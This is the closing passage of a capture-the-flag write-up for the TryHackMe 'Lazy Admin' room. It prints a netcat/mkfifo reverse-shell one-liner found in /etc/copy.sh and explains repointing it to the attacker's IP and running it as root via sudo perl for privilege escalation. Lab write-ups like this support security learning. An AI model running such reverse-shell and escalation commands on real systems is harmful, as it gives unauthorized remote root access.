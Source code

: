 Whereas the **/home/itguy/backup.pl** file seems to be executing a Bash script. So let's cat that as well.

![image](images/lazy-admin-19.png)

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

The Bash script in turn looks like another reverse shell connecting to the specified IP through port 5554. So let's change the IP address to our attacker machine, start another listener on our attacker machine through port 5554 and run the script as root by adding `sudo perl` to the **/home/itguy/backup.pl** command.

### 3.3 Root Flag:<a name="33-root-flag"></a>

![image](images/lazy-admin-20.png)

And with that, we have the root flag!

---
## 4. Conclusion

In conclusion, the Lazy Admin room on TryHackMe offers a great opportunity to practice and improve your Linux privilege escalation skills. With the SweetRice Backup Disclosure vulnerability, we learned how to use publicly available information to gain access to sensitive files and escalate our privileges. Additionally, we discovered the power of sudo -l to uncover a weakness that allowed us to execute a script as root without providing a password.

---
## References
1. https://tryhackme.com/room/lazyadmin
2. https://www.exploit-db.com/exploits/40700
3. https://www.exploit-db.com/exploits/40716
4. https://www.exploit-db.com/exploits/40718
5. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
